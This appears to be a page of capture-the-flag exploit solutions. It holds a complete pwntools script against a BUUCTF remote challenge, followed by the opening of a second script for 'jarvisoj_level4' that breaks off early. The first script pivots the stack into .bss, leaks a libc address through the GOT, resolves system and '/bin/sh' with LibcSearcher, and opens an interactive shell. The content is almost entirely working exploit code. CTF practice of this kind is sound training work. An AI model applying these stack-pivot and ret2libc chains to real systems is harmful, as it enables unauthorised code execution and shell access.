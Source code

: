 ```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29191)
elf = ELF('./pwn')

# construct fake stack
payload = p32(elf.symbols['m1'] + 20)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vul_function'])	# return address, return to function
payload += p32(1)					# first argument of write: stdout
payload += p32(elf.got['write'])	# second argument of write: .got address of 'write'
payload += p32(4)					# third argument of write: write length

io.sendlineafter(b'What is your name?', payload)

payload = cyclic(0x18)
payload += p32(elf.symbols['s'])	# fake ebp
payload += p32(0x8048511)			# return to 'leave; retn' to change rsp into .bss segment

io.sendafter(b'What do you want to say?', payload)

write = u32(io.recv(4))
print(hex(write))
libc = LibcSearcher('write', write)
base = write - libc.dump('write')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

# we can change the stack after ebp directly through 'vul_function'
# now the ebp points to s+8, so fill 12 bytes of garbage into s first
payload = p32(0xdeadbeef) * 3
payload += p32(sys)
payload += p32(0xdeadbeef)
payload += p32(binsh)

io.sendlineafter(b'What is your name?', payload)
io.sendlineafter(b'What do you want to say?', b'Hacked')

# gdb.attach(io)
io.interactive()
```
# buu035-jarvisoj_level4
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26702)
elf = ELF('./pwn')

payload = cyclic(136 + 4)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vulnerable_function'])
payload += p32(1)
payload += p32(elf.got['read'])
payload += p32(4)

io.sendline(payload)
```